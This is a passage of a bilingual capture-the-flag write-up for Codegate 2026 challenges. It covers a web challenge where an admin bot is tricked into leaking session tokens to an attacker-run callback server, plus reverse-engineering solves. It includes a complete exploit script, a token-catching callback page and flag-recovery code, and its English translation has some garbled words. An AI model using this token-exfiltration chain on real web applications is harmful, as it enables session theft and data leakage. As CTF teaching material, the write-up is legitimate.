Here ` next ` must start with `/mail/open/`, but the real request is sent by the parent page as an administrator. That is, as long as the renderer provides ` relaydesk:open-linked-workspace `, the parent page will retrieve the protected interface on behalf of the user. 

**4.`/mail/open` attaches `wid` and `rv` to attacker URL**

在 `handleMailOpen()`：

In ` handleMailOpen () `: 

- 如果 `ctx.ResumeRef` 和 `ctx.ResumeNonce` 存在，就调用 `issueWorkspaceVisit()` 生成短期 token。

  If ` ctx.ResumeRef ` and ` ctx.ResumeNonce ` exist, call ` issueWorkspaceVisit () ` to generate a short - term token. 

- 然后 `appendResumeRef(ctx.Link, ctx.ResumeRef, visitToken)` 会把：

  Then`appendResumeRef(ctx.Link, ctx.ResumeRef, visitToken)` will append:

  - `wid=<resume_ref>`
  - `rv=<visit_token>`
  -  拼到原始 `ctx.Link` 上。
  -  Stitch to the original `ctx.Link`. 

因此只要 `ctx.Link` 指向攻击者控制页面，bot 就会把 `wid/rv` 主动带给我们。

Therefore, as long as `ctx.Link` points to a page controlled by the attacker, the bot will actively bring `wid/rv` to us.

**5. Origin confusion is real**

关键点在 [handoff.go](/root/ctf_relaydesk/src/internal/handoff/handoff.go)。

服务端会基于 review link 生成 `portal_origin`，但浏览器对 host 的实际 canonicalization 不完全一致。最终可利用的 host 形式是：

The server will generate ` portal_origin ` based on the review link, but the actual canonicalization of the host by browsers is not entirely consistent. The ultimately usable host format is: 

```http
http://brief%EF%BC%8Erelaydesk.local.[::ffff:2b8b:bff8]/notes/../<marker>
```

这里的两个关键点：

Two key points here:

- `%EF%BC%8E` 是兼容 Unicode 点号。

  `%EF%BC%8E` is a Unicode-compatible dot.

- bracketed IPv4-mapped IPv6 必须使用 Chromium 实际会归一化成的十六进制压缩形式：

  bracketed IPv4-mapped IPv6 must use the hexadecimal compressed form that Chromium actually normalizes to: 

  - 可用：`[::ffff:2b8b:bff8]`

  - 不稳定/会失配：`[::ffff:43.139.191.248]`

    Unstable/May Mismatch:`[::ffff:43.139.191.248]`

如果 host 写成后者，`event.origin`/`Host` 与服务端计算出的 trusted origin 会不一致，二阶段 token 外带会失败。

If host is written as the latter, ` event.origin `/` Host ` will be inconsistent with the trusted origin calculated by the server, and the second-stage token out-of-band will fail. 

#### **Exploit**

**1. 设定 profile**

**Set the profile**

成功 profile：

Successful Profile: 

```JSON
{
  "submitter_email": "userNNNN@example.com",
  "subject": "relaydesk exploit NNNN",
  "workspace": { "locale": "digest", "segment": "managed" },
  "channels": [
    { "kind": "mail", "target": "case-notes@relaydesk.local", "label": "thread" }
  ]
}
```

**2. 第一封 ticket**

**The first ticket**

提交空 body 的第一封 ticket，等待状态进入：

Submit the first ticket with an empty body and wait for the status to enter:

```Plain
awaiting_reply
```

**3. 第二封 follow-up**

**Second follow-up**

第二封 ticket 的 body 使用合法 continuation/action card：

The body of the second ticket uses a legal continuation/action card: 

```HTML
<section class="message-summary">
  <a class="summary-link" href="http://example.com/" data-mode="inline" data-tags="summary,activity,notes" data-thread-id="{thread_id}">thread</a>
  <a class="summary-link" href="{raw_link}" data-mode="inline" data-tags="summary,activity,notes" data-thread-id="{thread_id}">action</a>
</section>
```

其中：

Where: 

- `thread_id = lower(subject).replace(/\s+/g, "-")`
- `raw_link = http://brief%EF%BC%8Erelaydesk.local.[::ffff:2b8b:bff8]/notes/../<marker>`

**4. 攻击者回调页**

**Attacker Callback Page**

攻击者页面只需要在 iframe 中持续发：

The attacker's page only needs to continuously send within the iframe: 

```HTML
<script>
(function(){
  function ping(){
    try{
      if(window.parent!==window){
        window.parent.postMessage({type:"relaydesk:resume-ready"},"*");
      }
    }catch(e){}
  }
  ping();
  let n=0;
  let t=setInterval(function(){ ping(); if(++n>60) clearInterval(t); },250);
})();
</script>
```

这样能规避 iframe 加载与父页面监听器之间的时序竞争。

This can avoid the timing race between iframe loading and the parent page listener. 

**5. Token exfiltration**

bot 命中攻击者页后，日志里会出现两次请求：

After the bot hits the attacker page, two requests will appear in the log: 

1. 首次加载攻击者页面，无 query。

   Load the attacker's page for the first time, no query.

2. 再次跳转到同一路径，附带：

   Jump to the same path again, with:

   1. `wid`
   2. `rv`

例如实际观测到的形式：

For example, the form actually observed: 

```Plain
/cb/<marker>?rv=<24-hex>&wid=<16-hex>
```

`rv` 生命周期来自 `workspaceVisitLifetime = 2 * time.Minute`。

`rv` lifecycle comes from `workspaceVisitLifetime = 2 * time.Minute`. 

#### **Oracle Analysis**

**1.`resume` 是不消耗 token 的 4-gram oracle**

**`resume` is a 4-gram oracle that does not consume tokens**

在 [archive.go](/root/ctf_relaydesk/src/internal/workspace/archive.go)：

- `NewArchive(raw string)` 会对隐藏字符串做 `NormalizeQuery()`：

  `NewArchive(raw string)` will perform `NormalizeQuery()` on hidden strings:

  - `strings.ToLower`
  - `strings.TrimSpace`
  - 截断到 128 字符
  - Truncate to 128 characters

- 然后对归一化后的字符串做窗口大小为 4 的滑窗，存进 `fragments` 集合。

  Then, perform a sliding window operation with a window size of 4 on the normalized string and store it in the ` fragments ` set. 

`HasFragment(query)` 只有在 `len(query) == 4` 且 fragment 存在时返回真。

`HasFragment(query)` returns true only when `len(query) == 4` and the fragment exists.

**2.`resume` 页面直接暴露命中结果**

**The `resume` page directly exposes the hit results**

在 `handleQueueResume()`：

In ` handleQueueResume () `: 

- 只校验 `wid` 与 `rv` 是否有效。

  Only validates whether `wid` and `rv` are valid.

- 不消费 token。

  Does not consume tokens.

- 然后调用 `s.archive.Snapshot(query)`。

  Then call ` s.archive.Snapshot(query) `. 

命中时 HTML 中会包含：

When a hit occurs, the HTML will contain: 

```Plain
A matching workspace fragment can be promoted from archived context.
```

未命中则是：

A miss is: 

```Plain
No archived context fragment matched the current workspace filter.
```

因此它本身就是稳定 oracle，不需要每次都去打 `asset`。

Therefore, it is a stable oracle itself and does not need to call `asset` every time.

**3.`asset` 是单次消费型更强 oracle**

**`asset` is a more single-consumption-oriented oracle**

在 `handleQueueAsset()`：

In ` handleQueueAsset () `: 

- 先检查 `slot == fnv(ref|query|bucket|visitToken)`

- 然后 `consumeWorkspaceVisit()`，单次消费 token

  Then ` consumeWorkspaceVisit () `, single - consumption token 

- 最后只有 `HasFragment(query)` 为真时才返回 JS

  Finally, JS is returned only when `HasFragment(query)` is true

所以：

Therefore:

- `resume` 适合大规模枚举

  `resume` suitable for large-scale enumeration

- `asset` 适合在必要时用 `<script onload/onerror>` 做更干净的布尔判断

  `asset` is suitable for use when necessary to perform cleaner boolean checks with `<script onload/onerror>`

然后进行flag枚举

Then perform flag enumeration 

#### exp

```Python
#!/usr/bin/env python3
import argparse
import ipaddress
import json
import random
import socket
import string
import threading
import time
import urllib.parse
from dataclasses import dataclass
from http.server import BaseHTTPRequestHandler, ThreadingHTTPServer
from pathlib import Path
from typing import Callable, Optional

import requests

PROFILE = {
    "workspace": {"locale": "digest", "segment": "managed"},
    "channels": [
        {"kind": "mail", "target": "case-notes@relaydesk.local", "label": "thread"}
    ],
}

DEFAULT_PREFIX = "codegate2026{"
DEFAULT_CHARSET = "0123456789abcdef}"
MATCH_TEXT = "A matching workspace fragment can be promoted from archived context."
MISS_TEXT = "No archived context fragment matched the current workspace filter."
CALLBACK_HTML = """<!doctype html>
<html>
<body>
<script>
(function () {
  function ping() {
    try {
      if (window.parent !== window) {
        window.parent.postMessage({ type: "relaydesk:resume-ready" }, "*");
      }
    } catch (_) {}
  }
  ping();
  let n = 0;
  const t = setInterval(function () {
    ping();
    if (++n > 80) clearInterval(t);
  }, 250);
})();
</script>
</body>
</html>
"""

@dataclass
class TokenPair:
    wid: str
    rv: str
    marker: str

class TokenExpired(RuntimeError):
    pass

class CallbackCatcher:
    def __init__(self, listen_host: str, listen_port: int, verbose: bool = False):
        self.listen_host = listen_host
        self.listen_port = listen_port
        self.verbose = verbose
        self._lock = threading.Condition()
        self._events: list[tuple[str, TokenPair]] = []
        parent = self

        class Handler(BaseHTTPRequestHandler):
            def do_GET(self) -> None:
                parsed = urllib.parse.urlsplit(self.path)
                query = urllib.parse.parse_qs(parsed.query)
                path = parsed.path
                wid = first_value(query, "wid")
                rv = first_value(query, "rv")
                if parent.verbose:
                    print(f"[callback] path={path} wid={wid or '-'} rv={rv or '-'}")
                if wid and rv:
                    marker = path.lstrip("/")
                    pair = TokenPair(wid=wid, rv=rv, marker=marker)
                    with parent._lock:
                        parent._events.append((path, pair))
                        parent._lock.notify_all()
                body = CALLBACK_HTML.encode()
                self.send_response(200)
                self.send_header("Content-Type", "text/html; charset=utf-8")
                self.send_header("Cache-Control", "no-store")
                self.send_header("Content-Length", str(len(body)))
                self.end_headers()
                self.wfile.write(body)

            def log_message(self, fmt: str, *args: object) -> None:
                if parent.verbose:
                    print("[http] " + (fmt % args))

        self._httpd = ThreadingHTTPServer((listen_host, listen_port), Handler)
        self._thread = threading.Thread(target=self._httpd.serve_forever, daemon=True)

    def start(self) -> None:
        self._thread.start()

    def close(self) -> None:
        self._httpd.shutdown()
        self._httpd.server_close()
        self._thread.join(timeout=2)

    def wait_for(self, marker: str, timeout_s: float) -> TokenPair:
        marker = marker.strip("/")
        deadline = time.time() + timeout_s
        with self._lock:
            while True:
                for idx, (path, pair) in enumerate(self._events):
                    if marker in path.strip("/"):
                        self._events.pop(idx)
                        return pair
                remaining = deadline - time.time()
                if remaining <= 0:
                    raise TimeoutError(f"callback token for marker {marker!r} not observed")
                self._lock.wait(timeout=remaining)

def rand_suffix(n: int = 8) -> str:
    chars = string.ascii_lowercase + string.digits
    return "".join(random.choice(chars) for _ in range(n))

def first_value(values: dict[str, list[str]], key: str) -> Optional[str]:
    items = values.get(key) or []
    return items[0] if items else None

def create_ticket(
    session: requests.Session,
    base: str,
    email: str,
    subject: str,
    body_html: str = "",
    body_text: str = "",
) -> str:
    resp = session.post(
        f"{base}/api/v1/support/tickets",
        json={
            "submitter_email": email,
            "subject": subject,
            "body_html": body_html,
            "body_text": body_text,
        },
        timeout=10,
    )
    resp.raise_for_status()
    return resp.json()["ticket_id"]

def sync_profile(session: requests.Session, base: str, email: str, subject: str) -> None:
    payload = dict(PROFILE)
    payload["submitter_email"] = email
    payload["subject"] = subject
    resp = session.post(f"{base}/api/v1/support/profile/sync", json=payload, timeout=10)
    resp.raise_for_status()

def poll_status(
    session: requests.Session, base: str, ticket_id: str, want: str, timeout_s: float = 20.0
) -> None:
    deadline = time.time() + timeout_s
    while time.time() < deadline:
        resp = session.get(f"{base}/api/v1/support/tickets/{ticket_id}/status", timeout=10)
        resp.raise_for_status()
        status = resp.json().get("status", "")
        if status == want:
            return
        time.sleep(0.25)
    raise RuntimeError(f"status for {ticket_id} did not reach {want}")

def resolve_ipv4(host: str) -> ipaddress.IPv4Address:
    try:
        value = ipaddress.ip_address(host)
    except ValueError:
        value = ipaddress.ip_address(socket.gethostbyname(host))
    if not isinstance(value, ipaddress.IPv4Address):
        raise ValueError(f"{host!r} did not resolve to an IPv4 address")
    return value

def ipv4_to_mapped_literal(host: str) -> str:
    ip = resolve_ipv4(host)
    octets = ip.packed
    return f"[::ffff:{octets[0]:02x}{octets[1]:02x}:{octets[2]:02x}{octets[3]:02x}]"

def build_review_link(callback_host: str, marker: str, callback_port: int) -> str:
    literal = ipv4_to_mapped_literal(callback_host)
    authority = f"brief%EF%BC%8Erelaydesk.local.{literal}"
    if callback_port not in (80, 0):
        authority += f":{callback_port}"
    marker_path = marker.strip("/")
    return f"http://{authority}/notes/../{marker_path}"

def build_followup_body(subject: str, raw_link: str) -> str:
    thread_id = subject.lower().replace(" ", "-")
    return (
        '<section class="message-summary">'
        f'<a class="summary-link" href="http://example.com/" data-mode="inline" '
        f'data-tags="summary,activity,notes" data-thread-id="{thread_id}">thread</a>'
        f'<a class="summary-link" href="{raw_link}" data-mode="inline" '
        f'data-tags="summary,activity,notes" data-thread-id="{thread_id}">action</a>'
        "</section>"
    )

def submit_chain(
    base: str,
    raw_link: str,
    status_timeout_s: float = 20.0,
    verbose: bool = False,
) -> tuple[str, str, str]:
    session = requests.Session()
    suffix = rand_suffix()
    email = f"user{suffix}@example.com"
    subject = f"relaydesk exploit {suffix}"
    if verbose:
        print(f"[+] submitter={email}")
        print(f"[+] subject={subject}")
        print(f"[+] raw_link={raw_link}")
    sync_profile(session, base, email, subject)
    first_ticket = create_ticket(session, base, email, subject)
    poll_status(session, base, first_ticket, "awaiting_reply", timeout_s=status_timeout_s)
    body_html = build_followup_body(subject, raw_link)
    create_ticket(session, base, email, subject, body_html=body_html)
    return email, subject, first_ticket

def parse_remote_log_text(text: str, marker: str) -> Optional[TokenPair]:
    for line in reversed(text.splitlines()):
        if marker not in line:
            continue
        try:
            entry = json.loads(line)
        except json.JSONDecodeError:
            continue
        q = entry.get("query") or {}
        wid = (q.get("wid") or [None])[0]
        rv = (q.get("rv") or [None])[0]
        if wid and rv:
            return TokenPair(wid=wid, rv=rv, marker=marker)
    return None

def wait_for_log_tokenpair(log_path: Path, marker: str, timeout_s: float) -> TokenPair:
    deadline = time.time() + timeout_s
    while time.time() < deadline:
        try:
            text = log_path.read_text(encoding="utf-8", errors="replace")
        except FileNotFoundError:
            text = ""
        pair = parse_remote_log_text(text, marker)
        if pair:
            return pair
        time.sleep(0.5)
    raise TimeoutError(f"wid/rv for marker {marker!r} not found in {str(log_path)!r}")

def query_fragment(session: requests.Session, base: str, wid: str, rv: str, frag: str) -> bool:
    resp = session.get(
        f"{base}/mail/queue/resume/{wid}",
        params={"rv": rv, "q": frag},
        timeout=10,
    )
    if resp.status_code == 404:
        raise TokenExpired("workspace token expired or invalid")
    resp.raise_for_status()
    text = resp.text
    if MATCH_TEXT in text:
        return True
    if MISS_TEXT in text:
        return False
    raise RuntimeError("unexpected resume response shape")

def recover_flag(
    base: str,
    token_pair: TokenPair,
    prefix: str,
    charset: str,
    max_length: int,
    refresh_token: Optional[Callable[[], TokenPair]] = None,
    verbose: bool = False,
) -> str:
    if len(prefix) < 3:
        raise ValueError("prefix must be at least 3 characters long")
    session = requests.Session()
    recovered = prefix.lower()
    active = token_pair
    charset = "".join(dict.fromkeys(charset.lower()))

    while len(recovered) < max_length:
        tail = recovered[-3:]
        next_char = None
        idx = 0
        while idx < len(charset):
            candidate = charset[idx]
            frag = tail + candidate
            try:
                hit = query_fragment(session, base, active.wid, active.rv, frag)
            except TokenExpired:
                if refresh_token is None:
                    raise
                active = refresh_token()
                if verbose:
                    print(f"[+] refreshed token wid={active.wid} rv={active.rv}")
                idx = 0
                continue
            if hit:
                next_char = candidate
                break
            idx += 1
        if next_char is None:
            raise RuntimeError(f"no candidate matched for tail {tail!r}")
        recovered += next_char
        print(f"[oracle] {recovered}")
        if recovered.endswith("}"):
            return recovered
    raise RuntimeError(f"stopped after reaching max length {max_length}")

def acquire_tokenpair(
    base: str,
    callback_host: str,
    callback_port: int,
    marker: Optional[str],
    token_timeout_s: float,
    status_timeout_s: float,
    catcher: Optional[CallbackCatcher],
    log_path: Optional[Path],
    verbose: bool,
) -> TokenPair:
    current_marker = marker or f"cb/{rand_suffix(10)}"
    raw_link = build_review_link(callback_host, current_marker, callback_port)
    submit_chain(base, raw_link, status_timeout_s=status_timeout_s, verbose=verbose)
    if catcher is not None:
        pair = catcher.wait_for(current_marker, token_timeout_s)
    elif log_path is not None:
        pair = wait_for_log_tokenpair(log_path, current_marker, token_timeout_s)
    else:
        raise RuntimeError("no token acquisition method configured")
    if verbose:
        print(f"[+] got token wid={pair.wid} rv={pair.rv} marker={pair.marker}")
    return pair

def parse_args() -> argparse.Namespace:
    parser = argparse.ArgumentParser()
    parser.add_argument("--base", required=True, help="RelayDesk base URL")
    parser.add_argument("--callback-host", help="Public IPv4 or hostname for the callback server")
    parser.add_argument("--callback-port", type=int, default=80, help="Public callback port")
    parser.add_argument("--listen-host", default="0.0.0.0", help="Bind address for embedded callback server")
    parser.add_argument("--listen-port", type=int, help="Bind port for embedded callback server")
    parser.add_argument("--serve", action="store_true", help="Run an embedded callback server and capture wid/rv automatically")
    parser.add_argument("--log-file", help="Poll a callback log file and extract wid/rv from JSON lines")
    parser.add_argument("--marker", help="Override callback marker, default is cb/<random>")
    parser.add_argument("--wid", help="Existing resume ref")
    parser.add_argument("--rv", help="Existing visit token")
    parser.add_argument("--prefix", default=DEFAULT_PREFIX, help="Known flag prefix")
    parser.add_argument("--charset", default=DEFAULT_CHARSET, help="Candidate charset for the next character")
    parser.add_argument("--max-length", type=int, default=64, help="Maximum recovered flag length")
    parser.add_argument("--status-timeout", type=float, default=20.0, help="Wait time for first ticket to reach awaiting_reply")
    parser.add_argument("--token-timeout", type=float, default=30.0, help="Wait time for wid/rv callback capture")
    parser.add_argument("--no-recover", action="store_true", help="Stop after obtaining wid/rv")
    parser.add_argument("--verbose", action="store_true")
    args = parser.parse_args()
    if bool(args.wid) != bool(args.rv):
        parser.error("--wid and --rv must be supplied together")
    if not args.wid and not args.callback_host:
        parser.error("either provide --wid/--rv or supply --callback-host for live triggering")
    if args.listen_port is None:
        args.listen_port = args.callback_port
    if not args.wid and not args.serve and not args.log_file:
        parser.error("live triggering requires --serve or --log-file so wid/rv can be captured")
    if args.serve and args.log_file:
        parser.error("use either --serve or --log-file, not both")
    return args

def main() -> None:
    args = parse_args()
    base = args.base.rstrip("/")
    catcher: Optional[CallbackCatcher] = None
    log_path = Path(args.log_file) if args.log_file else None

    try:
        if args.serve:
            catcher = CallbackCatcher(args.listen_host, args.listen_port, verbose=args.verbose)
            catcher.start()
            print(f"[+] listening on {args.listen_host}:{args.listen_port}")

        if args.wid and args.rv:
            pair = TokenPair(wid=args.wid, rv=args.rv, marker=args.marker or "")
        else:
            pair = acquire_tokenpair(
                base=base,
                callback_host=args.callback_host,
                callback_port=args.callback_port,
                marker=args.marker,
                token_timeout_s=args.token_timeout,
                status_timeout_s=args.status_timeout,
                catcher=catcher,
                log_path=log_path,
                verbose=args.verbose,
            )
            print(f"[+] wid={pair.wid}")
            print(f"[+] rv={pair.rv}")
            print(f"[+] marker={pair.marker}")

        if args.no_recover:
            return

        refresh: Optional[Callable[[], TokenPair]] = None
        if not args.wid and (catcher is not None or log_path is not None):
            def refresh() -> TokenPair:
                return acquire_tokenpair(
                    base=base,
                    callback_host=args.callback_host,
                    callback_port=args.callback_port,
                    marker=None,
                    token_timeout_s=args.token_timeout,
                    status_timeout_s=args.status_timeout,
                    catcher=catcher,
                    log_path=log_path,
                    verbose=args.verbose,
                )

        flag = recover_flag(
            base=base,
            token_pair=pair,
            prefix=args.prefix,
            charset=args.charset,
            max_length=args.max_length,
            refresh_token=refresh,
            verbose=args.verbose,
        )
        print(f"[flag] {flag}")
    finally:
        if catcher is not None:
            catcher.close()

if __name__ == "__main__":
    main()
```

## RE

### **CogwartsLang**

题目入口是 `harness`。它会读取 Grimoire 源码，完成词法、语法、作用域、类型检查和字节码编译，然后挂上宿主插件执行 `solve`。最终是否给出 flag，不只看 `solve` 的返回值，还会额外调用宿主插件的状态检查。

The entry point of the problem is `harness`. It reads the Grimoire source code, completes lexical, syntactic, scope, type checking, and bytecode compilation, and then attaches to the host plugin to execute `solve`. Whether a flag is ultimately provided depends not only on the return value of `solve`, but also on an additional state check of the host plugin. 

#### **宿主逻辑** | **Host Logic**

`liboracle_host.so` 暴露了五个导出函数：

`liboracle_host.so` exposes five exported functions:

- `grim_host_create`
- `grim_host_reset`
- `grim_host_set_seed`
- `grim_host_set_input_hash`
- `grim_host_status`

`harness` 在执行脚本前会先：

`harness` will do the following before executing the script:

1. `reset`

2. `set_seed`

3. 计算一个固定的 `input_hash`

   Calculate a fixed `input_hash`

4. `set_input_hash`

`grim_host_status` 的判断非常直接：

`grim_host_status`'s judgment is very straightforward:

- `witness` 必须成功一次

  `witness` must succeed once

- `checkpoint` 的三个 bit 必须全部置位

  `checkpoint`'s three bits must all be set

也就是说，脚本的目标就是让 `oracle` 内部状态满足：

That is to say, the goal of the script is to make the `oracle` internal state satisfy:

- `checkpoint[0]`
- `checkpoint[1]`
- `checkpoint[2]`
- `witness`

#### **oracle 内置调用** | **Oracle built-in call**

语言里可以直接用内置的 `oracle[...]`，不需要额外导入模块。

In the language, you can directly use the built-in ` oracle [...] `, without the need to import additional modules. 

可用名字有：

Available names are:

- `oracle["seed"]`
- `oracle["tick"]`
- `oracle["ticket", value]`
- `oracle["checkpoint", index, value]`
- `oracle["witness", value]`

逆向以后可以得到三个 `checkpoint` 的固定目标值和时间窗：

After reversing, we can obtain three ` checkpoint ` fixed target values and time windows: 

- `checkpoint(0, 984171264)`，允许 tick 在 `248..312`

  `checkpoint(0, 984171264)`, allowing tick to be in `248..312`

- `checkpoint(1, 2916723419)`，允许 tick 在 `244..308`

  `checkpoint(1, 2916723419)`, allowing tick to be in `244..308`

- `checkpoint(2, 652393318)`，允许 tick 在 `221..285`

  `checkpoint(2, 652393318)`, allowing tick to be in `221..285`

三个窗口的交集是 `248..285`，所以最稳的做法是把三个 `checkpoint` 放进同一个 `require` 表达式里，用 `and` 串起来，一次性完成。

The intersection of the three windows is ` 248..285 `, so the most stable approach is to put the three ` checkpoints ` into the same ` require ` expression, string them together with ` and `, and complete it all at once. 

`ticket` 和 `witness` 也都能精确逆出。对默认 seed 和固定 input hash 来说：

`ticket` and `witness` can also be accurately inverted. For the default seed and fixed input hash:

- 在 tick `254` 调用 `oracle["ticket", 2438034967]`

  Called at tick `254` `oracle["ticket", 2438034967]`

- 在 tick `259` 调用 `oracle["witness", 1007506947]`

  Called at tick `259` `oracle["witness", 1007506947]`

#### **tick 规划** | **tick planning**

动态探针可以量出：

Dynamic probes can measure:

- 第一条 `oracle["tick"]` 发生在 tick `3`

  First `oracle["tick"]` occurred at tick `3`

- 每条单独的 `true.` 语句会把下一次宿主调用向后推 `2`

  Each individual `true.` statement will push the next host call back by `2`

- 把三个 `checkpoint` 放进一个 `require[... and ... and ...]` 之后，只需要在前面铺 `113` 条 `true.`，就能让它们全部落进交集窗口

  After putting three ` checkpoints ` into a ` require [... and... and...] `, you only need to lay ` 113 ` ` true. ` in front to make them all fall into the intersection window 

- 这条 `checkpoint` 链之后，下一次无参 `oracle["tick"]` 会是 `253`

  After this ` checkpoint ` chain, the next parameterless ` oracle ["tick"] ` will be ` 253 `

- 所以下一条一参调用 `ticket` 落在 `254`

  So the next one-parameter call `ticket` falls on `254`

- 再下一条一参调用 `witness` 落在 `259`

  The next one-parameter call ` witness ` lands on ` 259 `

这样最终脚本非常短，只要按这个顺序执行即可。

The final script is very short, and it only needs to be executed in this order. 

#### **最终 Grimoire** | **Final Grimoire**

```javascript
Incantation solve[x] Alohomora
true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true.
true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true.
true. true. true. true. true. true. true. true. true. true. true. true. true.
require[oracle["checkpoint", 2, 652393318] and oracle["checkpoint", 1, 2916723419] and oracle["checkpoint", 0, 984171264]].
oracle["ticket", 2438034967].
oracle["witness", 1007506947].
Portus true.
Colloportus.
```

#### exp

solve.grim

```JavaScript
Incantation solve[x] Alohomora
true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true.
true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true. true.
true. true. true. true. true. true. true. true. true. true. true. true. true.
require[oracle["checkpoint", 2, 652393318] and oracle["checkpoint", 1, 2916723419] and oracle["checkpoint", 0, 984171264]].
oracle["ticket", 2438034967].
oracle["witness", 1007506947].
Portus true.
Colloportus.
```

exp.py

```python
from pathlib import Path

from pwn import context, remote

HOST = "15.164.175.59"
PORT = 20266

def main():
    context.log_level = "debug"
    payload = Path(__file__).with_name("solve.grim").read_bytes()

    io = remote(HOST, PORT, timeout=10)
    try:
        try:
            banner = io.recv(timeout=1)
        except EOFError:
            banner = b""
        io.send(payload)
        io.shutdown("send")
        data = banner + io.recvall(timeout=10)
    finally:
        io.close()

    print(data.decode("utf-8", "replace"))

if __name__ == "__main__":
    main()
```

### **Graybox**

程序表面上只是读入 64 字节，然后在退出前给出 `Sucess!` 或 `Wrong!`。真正的校验逻辑没有直接写成普通循环，而是伪造了两个 `_IO_FILE` 结构，把函数指针表塞进全局区，再把这两个假文件对象挂进标准错误流的链表里。退出时，glibc 在清理流对象的过程中会不断调用这些伪造的回调，于是题目的“虚拟机”就被执行起来了。

On the surface, the program only reads 64 ByteDance, and then outputs `Sucess!` or `Wrong!` before exiting. The real verification logic is not directly written as an ordinary loop, but instead forges two `_IO_FILE` structures, stuffs the function pointer table into the global area, and then hangs these two fake file objects into the linked list of the standard error stream. When exiting, glibc will continuously call these forged callbacks during the process of cleaning up stream objects, so the "virtual machine" of the problem is executed.

这套虚拟机的指令不在普通函数表里顺序编号。它依赖两个假文件对象轮流执行，所以同一个字节在奇数步和偶数步会落到不同的处理函数上。把这个偏移关系理清以后，字节码可以还原成很规整的运算：

The instructions of this virtual machine are not sequentially numbered in the ordinary function table. It relies on two fake file objects to execute alternately, so the same byte will fall into different processing functions in odd and even steps. After clarifying this offset relationship, the bytecode can be restored to a very regular operation: 

1. 先把输入按小端拆成 16 个 `u32`。

   First, split the input into 16 ` u32 `. 

2. 对这 16 个字做 8 轮双轮变换。

   Perform 8 rounds of double-round transformation on these 16 characters.

3. 最后把变换结果逐项和常量比较，只要有一项不相等，就把状态字置成非零。

   Finally, compare the transformation results item by item with the constant. As long as there is one item that is not equal, set the status word to non-zero.

双轮变换的核心正是 `Salsa20` 的四字轮函数，轮常量分别是 `7, 9, 13, 18`，先做列轮，再做行轮。程序并没有把原始状态加回去，单纯做了 8 次可逆变换，所以解题最直接的方法就是把最终比较常量按逆四字轮、逆双轮一路倒回去。

The core of the double-round transformation is ` the four-word round function of Salsa20 `, with round constants being ` 7, 9, 13, 18 `, first performing column rounds and then row rounds. The program does not add back the original state, simply performing 8 reversible transformations, so the most direct way to solve the problem is to reverse the final comparison constants all the way back through the inverse four-word round and inverse double-round. 

比较目标的 16 个 `u32` 是：

The 16 ` u32 ` of the comparison target are: 

```Plain
C173350A B43450F5 F7241B94 E2DF5DBB
CFD87CCA 2035C083 D26CDA5B 6D1F7F8E
4FCE0A8A EFA6DC81 B1477F05 1D078F3E
E0AE01DB 89B60F8A 0BB4E3F8 83B07CDF
```

对它们连续做 8 次逆双轮，得到初始 64 字节：

Perform 8 consecutive inverse double rounds on them to obtain the initial 64 ByteDance:

```Plain
4h!_C0ngr47u147i0ns!_L37_m3_kn0w_why_7his_gr3y_b0x_d03s_n07_3nd!
```

把这 64 字节送进程序，程序会输出：

Feed these 64 ByteDance into the program, and the program will output:

```Plain
Sucess!
Flag is codegate2026{4h!_C0ngr47u147i0ns!_L37_m3_kn0w_why_7his_gr3y_b0x_d03s_n07_3nd!}
```

#### EXP

```Python
from __future__ import annotations

import struct

MASK = 0xFFFFFFFF
TARGET = [
    0xC173350A,
    0xB43450F5,
    0xF7241B94,
    0xE2DF5DBB,
    0xCFD87CCA,
    0x2035C083,
    0xD26CDA5B,
    0x6D1F7F8E,
    0x4FCE0A8A,
    0xEFA6DC81,
    0xB1477F05,
    0x1D078F3E,
    0xE0AE01DB,
    0x89B60F8A,
    0x0BB4E3F8,
    0x83B07CDF,
]

SCHEDULE = [
    (0, 4, 8, 12),
    (1, 5, 9, 13),
    (2, 6, 10, 14),
    (3, 7, 11, 15),
    (0, 5, 10, 15),
    (1, 6, 11, 12),
    (2, 7, 8, 13),
    (3, 4, 9, 14),
]

def ror32(value: int, bits: int) -> int:
    return ((value >> bits) | (value << (32 - bits))) & MASK

def inverse_quarterround(a: int, b: int, c: int, d: int) -> tuple[int, int, int, int]:
    b = ror32(b, 18) ^ c
    c = (c - d) & MASK
    d = ror32(d, 13) ^ a
    a = (a - b) & MASK
    b = ror32(b, 9) ^ c
    c = (c - d) & MASK
    d = ror32(d, 7) ^ a
    a = (a - b) & MASK
    return a, b, c, d

def inverse_doubleround(state: list[int]) -> list[int]:
    out = state[:]
    for idx in reversed(SCHEDULE):
        values = inverse_quarterround(*(out[i] for i in idx))
        for i, value in zip(idx, values):
            out[i] = value
    return out

def solve() -> bytes:
    state = TARGET[:]
    for _ in range(8):
        state = inverse_doubleround(state)
    return struct.pack("<16I", *state)

def main() -> None:
    answer = solve()
    text = answer.decode("ascii")
    print(text)
    print(f"codegate2026{{{text}}}")

if __name__ == "__main__":
    main()
```

### Silicon Dream - Micro Cipher

这道题不是把 flag 字符串从二进制里抠出来，而是恢复一串能让模拟器固件判定成功的 208 hex 输入。

This question is not about extracting the flag string from binary, but rather restoring a 208 hex input that allows the emulator firmware to determine success. 

宿主程序的主逻辑很直接：

The main logic of the host program is straightforward: 

1. 读取命令行输入的 208 个 hex 字符

   Read 208 hex characters entered from the command line

2. 拆成 13 个 64-bit block

   is split into 13 64-bit blocks 

3. 把输入写入模拟器 RAM

   Write the input into the simulator RAM 

4. 执行 ROM 里的 16-bit 固件

   Execute the 16-bit firmware in ROM

5. 从目标地址 0x0268 读取分数

   Read the score from target address 0x0268

6. 如果分数等于 0x1337，就打印：

   If the score equals 0x1337, print: 

   ​	FLAG: codegate2026{<input>}

所以目标就是恢复这 208 个 hex字符。

So the goal is to restore these 208 hex characters. 

#### 阶段 1：先搞清楚宿主程序 | Phase 1: First, figure out the host program

主要是为了找到输入写到了哪里以及程序用哪里当最终分数

